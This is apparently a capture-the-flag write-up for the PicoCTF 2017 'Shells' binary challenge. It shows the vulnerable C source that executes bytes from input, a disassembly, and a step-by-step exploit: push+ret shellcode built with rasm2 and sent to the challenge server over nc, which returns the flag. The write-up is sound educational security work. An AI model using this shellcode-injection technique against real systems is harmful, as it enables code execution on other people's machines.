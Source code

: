 # PicoCTF_2017: Shells

**Category:** Binary
**Points:** 70
**Description:**

>How much can a couple bytes do? Use [shells](shells) [Source](shells.c). Connect on shell2017.picoctf.com:63545.

**Hint:**

>Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag

## Write-up

1.  It's just little tricky one. But if you know basic of shellcode's then it might be easy for you. This time again we got two files
	```
	$ls
	shells shells.c
	```   
	So now lets try to HexDump the  `shells`  binary.
    
      ```
    shells:     file format elf32-i386
     Disassembly of section .init:
     08048378 <_init>:
      8048378:	53                   	push   %ebx
      8048379:	83 ec 08             	sub    $0x8,%esp
      804837c:	e8 ef 00 00 00       	call   8048470 <__x86.get_pc_thunk.bx>
      8048381:	81 c3 8b 16 00 00    	add    $0x168b,%ebx
      8048387:	8b 83 fc ff ff ff    	mov    -0x4(%ebx),%eax
      804838d:	85 c0                	test   %eax,%eax
      804838f:	74 05                	je     8048396 <_init+0x1e>
      8048391:	e8 6a 00 00 00       	call   8048400 <__gmon_start__@plt>
      8048396:	83 c4 08             	add    $0x8,%esp
      8048399:	5b                   	pop    %ebx
      804839a:	c3                   	ret    
     
     Disassembly of section .plt:
     
     080483a0 <read@plt-0x10>:
      80483a0:	ff 35 10 9a 04 08    	pushl  0x8049a10
      80483a6:	ff 25 14 9a 04 08    	jmp    *0x8049a14
      80483ac:	00 00                	add    %al,(%eax)
     	...
     
     080483b0 <read@plt>:
      80483b0:	ff 25 18 9a 04 08    	jmp    *0x8049a18
      80483b6:	68 00 00 00 00       	push   $0x0
      80483bb:	e9 e0 ff ff ff       	jmp    80483a0 <_init+0x28>
     
     080483c0 <printf@plt>:
      80483c0:	ff 25 1c 9a 04 08    	jmp    *0x8049a1c
      80483c6:	68 08 00 00 00       	push   $0x8
      80483cb:	e9 d0 ff ff ff       	jmp    80483a0 <_init+0x28>
     --More--
    ```
    
So it's x86 binary.

Now lets take a look on  `shells.c`  file.
    
	```
     #include <stdio.h>
     #include <stdlib.h>
     #include <unistd.h>
     #include <sys/mman.h>
     
     #define AMOUNT_OF_STUFF 10
     
     //TODO: Ask IT why this is here
     void win(){
         system("/bin/cat ./flag.txt");    
     }
     
     
     void vuln(){
         char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
         if(stuff == MAP_FAILED){
             printf("Failed to get space. Please talk to admin\n");
             exit(0);
         }
         printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
         fflush(stdout);
         int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
         if(len == 0){
             printf("You didn't give me anything :(");
             exit(0);
         }
         void (*func)() = (void (*)())stuff;
         func();      
     }
     
     int main(int argc, char*argv[]){
         printf("My mother told me to never accept things from strangers\n");
         printf("How bad could running a couple bytes be though?\n");
         fflush(stdout);
         vuln();
         return 0;
     }
	```
Just see their iss one  `win()`  function. Lets take a look on win() function in our HexDump. We can short out output using  `grep`  command.
    
    objdump -d shells | grep win
    08048540 <win>:
    
We got the address in Hex we used to write it in this way  `0x08048540`.
    
Now we can use  [radare2](https://github.com/radare/radare2)  to generate our payload. Actually we need  `push+ret`  in order to make our payload.
    
    $rasm2 -C "push 0x08048540"
    "\x68\x40\x85\x04\x08"
    
    $rasm2 -C "ret"
    "\xc3"
    

Here  `-C`  will give output in c format.Now combine the output of push+ret:`\x68\x40\x85\x04\x08\xc3`

Now print this shellcode in one file name:  `spirit_shells`.

 python -c 'print "\x68\x40\x85\x04\x08\xc3"' > spirit_shells

now just cat it out with the : shell2017.picoctf.com:63545

$cat spirit_shells - | nc shell2017.picoctf.com 63545
 My mother told me to never accept things from strangers
 How bad could running a couple bytes be though?
 Give me 10 bytes:
 4350d27b024f8597f10b98f164f0fc43

So, i think we got the flag  `4350d27b024f8597f10b98f164f0fc43`.

Hope you liked it
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTAyMjM5OTE3OCwtMTIzNDcwNDI4OF19
-->